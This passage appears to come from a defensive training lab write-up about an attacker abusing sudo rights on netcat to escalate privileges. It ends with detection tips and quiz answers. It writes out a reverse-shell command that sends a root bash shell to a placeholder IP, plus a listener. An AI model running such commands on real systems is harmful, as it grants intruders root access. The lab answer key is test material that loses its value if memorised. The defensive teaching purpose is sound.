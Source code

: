 **Step 5**

The attacker re-runs “nc” with sudo on the victim’s system.

```
$ sudo nc destination_IP 12345 -e /bin/bash
```

**Step 6**

The attacker re-runs the "cat /etc/sudoers" command through the  command center and is now able to view the relevant file contents.

```
# nc -l -p 12345  > cat /etc/sudoers  ## Sudoers allows particular users to run various commands as  ## the root user, without needing the root password. .  .  .  ….
```

### **Summary**

Commands sent from the command center received an authorization error with restricted rights, as the attacker ran “nc” with user rights to  access the command center on the system he seized. Although the admin  who manages the system allowed the "letsdef" user only the "nc"  application with "sudo" privileges, the attacker manipulated it so that  he could run all his other activities with authorized user rights. All  the commands he sent through the reverse_shell he obtained by running  "nc" as sudo were run with sudo privileges.

For detection; The usage of the sudo command should be monitored  closely. Known use cases should be excluded, in case there may be too  many activities. In addition, the status of defining sudo rights in the  system can be monitored/controlled.

- Searchable in Linux audit logs.  # cat /var/log/audit/audit.log | grep “sudo”   - Searchable from history on Linux system.  # history |grep “sudo”  or  # cat ~/.bash_history |grep “sudo”   - Searchable from "sudo" process create events in EDR/XDR logs.   - Editing of /etc/sudoers file can be monitored.   - The use of the visudo command can be monitored.

### Questions

**NOTE:** The answers are in the gtfo.log or history records. You can find the answers by searching in these files. 

**Log File Location:** /root/Desktop/QuestionFiles/

1 - What is the user UID who pulls the list of commands that can be run with sudo?

> **Answer:** 1005

2 - In which directory did the user who wanted to view the /etc/sudoers file run this command?

> **Answer:** /home/vivek













